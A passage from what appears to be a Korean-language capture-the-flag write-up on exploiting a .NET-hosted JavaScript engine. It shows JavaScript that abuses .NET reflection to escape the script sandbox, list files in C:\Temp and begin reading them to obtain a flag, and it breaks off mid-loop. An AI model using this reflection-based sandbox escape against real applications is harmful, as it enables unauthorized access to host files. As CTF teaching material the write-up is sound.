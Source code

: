 

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<img src="/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_21.png" />

## 플래그 읽기

이제 도전 과제의 마지막 조각인데요, c:\temp 디렉터리에 있는 플래그 파일을 읽어야 합니다. 하지만 우리는 플래그의 이름을 모르기 때문에 flag.txt가 아니라고 확신하고 있어요. 제가 시도해 봤기 때문이죠. 따라서 temp 디렉터리에있는 파일을 나열한 다음에 readfile 메서드를 사용하여 읽어야 합니다.

디렉터리에 있는 파일을 나열하기 위해서, System.IO.Directory 유형의 GetFiles(String path) 메서드가 이를 처리할거에요. 그러니 이를 사용해 봅시다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var len = typesArray.GetLength(0);
var types = [];
for (let i = 0; i < len; i++) {
  var typeName = typesArray.GetValue(i).ToString();
  if (typeName == "System.IO.Directory") {
    var typeIndex = i;
    break;
  }
}
var dirTypeMethods = typesArray.GetValue(typeIndex).GetMethods();
var len = dirTypeMethods.GetLength(0);
var methods = {};
for (let i = 0; i < len; i++) {
  var methodName = dirTypeMethods.GetValue(i).ToString();
  if (methodName.includes("GetFiles")) {
    var index = i;
    methods[i] = methodName;
  }
}
var getFilesMethod = dirTypeMethods.GetValue(17); // GetFile(String) at index 17
var envType = typesArray.GetValue(128);
var oneElemArr = envType.GetMethod("GetCommandLineArgs").Invoke(null, null);
oneElemArr.SetValue("C:\\Temp", 0);
// Getting all the filenames in the c:\\temp
tempFilesArr = getFilesMethod.Invoke(null, oneElemArr);
var len = tempFilesArr.GetLength(0);
var fileReadMethod = typesArray.GetValue(2008).GetMethods().GetValue(49);
for (let i = 0; i < len; i++) {
```